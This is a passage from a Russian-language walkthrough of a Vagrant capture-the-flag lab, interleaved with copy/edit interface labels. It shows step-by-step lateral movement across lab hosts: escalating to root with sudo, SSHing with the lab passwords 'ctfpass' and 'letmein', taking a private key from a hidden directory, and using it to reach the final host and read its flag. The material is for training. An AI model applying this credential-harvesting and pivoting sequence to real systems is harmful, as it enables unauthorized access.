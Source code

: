 ```bash

bash
Копировать
Редактировать
sudo -i
🧩 Шаг 3: Из ex02 (root) — подключение к ex03
bash
Копировать
Редактировать
ssh ctf@172.22.22.103
🔐 Пароль:

nginx
Копировать
Редактировать
ctfpass
🧩 Шаг 4: На ex03 — поиск и установка SSH-ключа
bash
Копировать
Редактировать
cat clue.txt
ls -a
ls /home/ctf/.hidden
📌 Там лежит приватный ключ:

bash
Копировать
Редактировать
mkdir -p ~/.ssh
cp /home/ctf/.hidden/id_rsa_user4 ~/.ssh/id_rsa
chmod 600 ~/.ssh/id_rsa
🧩 Шаг 5: Подключение к ex04 по ключу
bash
Копировать
Редактировать
ssh -i ~/.ssh/id_rsa access@172.22.22.104
🧩 Шаг 6: На ex04 — флаг
bash
Копировать
Редактировать
cat FLAG.txt
Ты увидишь:

css
Копировать
Редактировать
🎉 Поздравляем!
Вы добрались до последней машины.
Вот ваш финальный флаг:
FLAG{you_made_it_to_access_node}
🧼 Сброс, если хочешь пройти ещё раз
bash
Копировать
Редактировать
vagrant destroy -f
vagrant up
📌 Быстрая шпаргалка (всё в одном):
bash
Копировать
Редактировать
vagrant ssh ex01
ssh limited@172.22.22.102     # пароль: letmein
sudo -i
```
